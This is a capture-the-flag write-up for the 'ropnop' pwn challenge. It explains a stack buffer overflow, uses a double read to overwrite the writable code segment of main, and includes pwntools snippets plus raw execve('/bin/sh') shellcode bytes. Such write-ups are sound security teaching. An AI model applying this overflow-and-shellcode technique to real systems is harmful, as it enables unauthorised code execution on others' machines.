 # ROPNOP
## General information
### Analyzing the binary
First we use the file command to get some information about the binary.

```
root@dab66e65c349:/pwd/ropnop# file ropnop
ropnop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, with debug_info, not stripped
```

To see what security features are enabled we run checksec.

```
root@dab66e65c349:/pwd/ropnop# checksec ropnop
[*] '/pwd/ropnop/ropnop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Here we directly notice there are no stack-canarys. This allows easy an bufferoverflow, because we don't need to leak values.

### Analyzing the code
Now let's take a look at the provided source code. After the setup we call `ropnop()`. The function prints the start and end of the code segment, later we will use this to defeat ASLR.  Then `mprotect` is called.

`mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);`

This changes the permissions for the code segment to read/write/execute. This is important because if we can write to this segment we can get arbitrary code execution and thereby a shell.
`ropnop()` then uses a while-loop to replace all return instrutions(*op-code: 0xc3*) with a nop(*op-code: 0x90*). However you have to notice that the instruction 

`<+112>:	cmp    ecx, 0xc3`

contains the byte 0xc3 in its opcode and when the while-loop runs over this instruction it gets replaced with

`<+112>:	cmp    ecx,0x90`

Now the function does nothing anymore, because it only replaces nops with nops. This means that only return instruction before the ropnop function are replaced.


Back in main we call read:

```
int* buffer = (int*)&buffer;
read(0, buffer, 0x1337);
```

This enables a buffer overflow, because there is only place for one pointer on the stack, but we can write up to 0x1337 bytes. That way we get control over rbp and rip. You might also notice the function gadget_shop which is never called and contains so useful gadgets for a ROP attack. However gadget_shop is overwritten by ropnop and contains no more return instruction meaning it is now useless. This doesn't really matter because the final exploit needs no specific ROP-gadgets.
## The idea
The buffer overflow allows control over rip, rbp and the stack. If the stack would be executable we could place shell code here and win the challenge, but this is not possible since NX is enabled. We need to overwrite the code segment because it is the only one that has write and execute permissions. To do this we control rip in such a way that we jump back into main and call read again. The following instruction in main set up the read call:
```
<+25>:	xor   edi,edi
<+27>:	lea   rax,[rbp-0x10]
<+31>:	mov   QWORD PTR [rbp-0x10],rax
<+35>:	mov   rax,QWORD PTR [rbp-0x10]
<+39>:	mov   rsi,rax
<+42>:	mov   edx,0x1337
<+47>:	call  0x555555555040 <read@plt>
```
The rax register is the address we will write to and if we can control it we can overwrite code. As you can see at `<+27>` rax is loaded from rbp-0x10 and we already control rbp.

We can use your second buffer overflow to overwrite the last instructions of main with shell code. After we return from read back into main our shell code that sits at the end of main will be executed.
## The exploit
To automate the process of sending and receiving data we can use the python library [pwn-tools](http://docs.pwntools.com/en/stable/). We get the process and store it in the variable p.
```
p = remote("hax1.allesctf.net", 9300)
```
We read the output from the printf in ropnop and extract the start address from the string.
```
recv_buf = p.recv(64).split()

start = int(recv_buf[3], 16)
end = int(recv_buf[-1], 16)
```
We can now use this as a base to calculate other addresses from and defeat ASLR. The first buffer overflow consists of a 16 bytes padding to fill up the stack untill rbp, the next 8 bytes will become the new rbp. The new rbp should point to after the read call in main plus 0x10, because rax will point here after we subtract 0x10. Then the second read call will overwrite the code here with our shell code.

The last 8 bytes from the first bufferoverflow will controll rip. We use this to redirct code execution back into main befor the read call.

From the gdb disassemly of main we can see the offsets for the diffrent instructions.
````
   0x00000000000012a0 <+0>:	push   rbp
   0x00000000000012a1 <+1>:	mov    rbp,rsp
   0x00000000000012a4 <+4>:	sub    rsp,0x20
   0x00000000000012a8 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00000000000012af <+15>:	call   0x1170 <init_buffering>
   0x00000000000012b4 <+20>:	call   0x1200 <ropnop>
   0x00000000000012b9 <+25>:	xor    edi,edi
   0x00000000000012bb <+27>:	lea    rax,[rbp-0x10]
   0x00000000000012bf <+31>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000000012c3 <+35>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000000012c7 <+39>:	mov    rsi,rax
   0x00000000000012ca <+42>:	mov    edx,0x1337
   0x00000000000012cf <+47>:	call   0x1040 <read@plt>
   0x00000000000012d4 <+52>:	xor    ecx,ecx
   0x00000000000012d6 <+54>:	mov    QWORD PTR [rbp-0x18],rax
   0x00000000000012da <+58>:	mov    eax,ecx
   0x00000000000012dc <+60>:	add    rsp,0x20
   0x00000000000012e0 <+64>:	pop    rbp
   0x00000000000012e1 <+65>:	ret
````
So we compute the new rbp value like `rbp = start + 0x12d6 + 0x10` where start is the begining of the code segment. This will cause our 2. read to overwrite main starting at `main<+54>`.

Now we calculate rip so the first read returns to `main<+25>` instead of `main<+52>` to call read again. In code it looks like this `rip = start + 0x12b9`

We use the struct module to turn the integers rip and rbp to bytearrays and send the first input in the expoit script.
````
p.send(padding + rbp + rip)
````

Now we call read again from main, but this time our arguments look like this.

````
 ► 0x5635babeb2cf <main+47>    call   read@plt <0x5635babeb040>
        fd: 0x0
        buf: 0x5635babeb2d6 (main+54) ◂— 0x5635babeb2d6
        nbytes: 0x1337
````
Now we can send our shell code to this read and overwrite main with it. Because aslr is enabled and we have no address from libc to compute offsets from our shell code should work without libc. I used a small nop slide (mainly for testing purposes) and then some assembly that sets up a execve syscall like so:
````
mov    rdx,0x0
lea    rdi,[rip+0x12]
mov    rsi,0x0
mov    rax,0x3b
syscall
nop
nop
````
The nops are there to aline the address. Then we place the string `/bin/sh` immediately after the shell code so rdi will point to this string. Now the syscall will execute a shell and we pwned the binary. I used (this)[https://defuse.ca/online-x86-assembler.htm#disassembly] online assembler to get the bytes for the shellcode. In our script the second overflow look like this:
````
nop_slide = b"\x90"*10
shell_code = b"\x48\xC7\xC2\x00\x00\x00\x00\x48\x8D\x3D\x12\x00\x00\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\x90\x90"
shell_string = bytearray("/bin/sh", "ascii")

p.send(nop_slide + shell_code + shell_string + b"\x00")
````
After sending it to the binary we have a shell! You can find the full expolit in the additional files.
